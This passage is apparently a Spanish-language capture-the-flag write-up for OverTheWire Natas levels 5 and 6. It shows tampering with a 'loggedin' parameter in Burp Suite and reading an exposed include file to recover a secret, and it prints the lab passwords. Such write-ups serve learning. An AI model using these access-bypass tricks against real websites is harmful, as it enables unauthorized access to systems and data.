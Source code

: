 ```shell
<h1>natas5</h1>
<div id="content">
Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned</div>
```

Opción 2: Burpsuite

```python
'Capturamos la petición.
Cambiamos el parametro `loggedin=0` a `logedin=1`

Output:

"Access granted. The password for natas6 is 0RoJwHdSKWFTYR5WuiAewauSuNaBXned"
```

> Flag: 0RoJwHdSKWFTYR5WuiAewauSuNaBXned

## Level 7

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

```python
Source:
<?

include "includes/secret.inc";

    if(array_key_exists("submit", $_POST)) {
        if($secret == $_POST['secret']) {
        print "Access granted. The password for natas7 is <censored>";
    } else {
        print "Wrong secret";
    }
    }
?>

#El script llama a includes/secret.inc
#Probamos de cargarlo en el navegador : 

http://natas6.natas.labs.overthewire.org/includes/secret.inc

Output:

<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>

Ponermos ese password en el imput secret:

"Access granted. The password for natas7 is bmg8SvU1LizuWjx3y7xkNERkHxGre0GS "
```
